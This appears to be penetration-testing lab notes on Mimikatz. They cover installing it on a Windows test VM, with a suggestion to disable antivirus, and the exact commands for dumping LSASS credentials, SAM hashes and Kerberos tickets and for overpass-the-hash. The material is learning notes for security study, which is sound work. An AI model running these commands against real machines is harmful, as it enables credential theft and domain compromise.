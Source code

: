 
## **Overview**


- Tool used to view and steal credentials, generate kerberos tickets and leverage attacks
- Dump credentials stored in memory
- Few more attacks : Credential dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Silver Ticket and Golden Ticket


## **Installation**

- Download the mimikatz file[.zip] from [here](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip) on your kali machine
- Open the zipped file and navigate to the `/x64/` folder
- Transfer all files in this folder to your windows client machine, In our case it is **SPIDERMAN**
	- We can start up a python3 server on our Attacker machine with `python3 -m http.server 80`
	- Then navigate to your windows machine and open up a browser then type in our Attacking machine IP
	- Look for the files and download them (If you have any difficulty turn off your windows Antivirus)

![](https://i.imgur.com/HwRcWdk.png)

- Open up a Command Prompt with **Administrative privileges** on our SPIDERMAN VM and change directory to downloads (Where the Mimikatz file is located at)

![](https://i.imgur.com/QcWQSpt.png)


## **General Usage**

```powershell
# start mimikatz
c:\Users\peterparker\Downloads>mimikatz.exe

# start debug mode for full efficiency
mimikatz # privilege::debug

# List available options
mimikatz # sekurlsa::
```


### **Dump Hashes in LSASS**  

```powershell
mimikatz # sekurlsa::logonpasswords
```


### **Dump SAM**

```powershell
mimikatz # lsadump::sam
```


### **Dump Cached TGTs**

```powershell
mimikatz # sekurlsa::tickets
```


### **Overpass the Hash**

Create a TGT using a dumpled NTLM hash

```powershell
mimikatz # sekurlsa::pth /user:username /ntlm:hash-here /domain:domain.tld
```
